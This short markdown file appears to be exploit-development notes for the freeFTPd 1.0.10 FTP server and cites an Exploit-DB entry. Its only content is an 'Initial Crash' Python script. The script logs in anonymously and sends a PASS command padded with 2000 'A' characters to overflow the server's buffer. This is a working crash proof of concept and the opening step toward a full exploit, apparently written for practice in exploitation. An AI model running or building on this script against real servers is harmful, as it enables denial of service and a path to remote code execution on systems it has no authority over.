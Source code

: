 # freeFTPd 1.0.10

Downloaded from: https://www.exploit-db.com/exploits/27747

## Initial Crash

```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 21
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 2000  # change me

payload = b'PASS '
payload += b"A" * CRASH_LEN

payload += b'\r\n'

with socket.create_connection(target) as sock:
    sock.recv(1024)
    sock.send(b"USER anonymous\r\n") 

    sock.recv(1024)
    sock.send(payload)   

    sock.close()
    
    print("\nDone!")
```
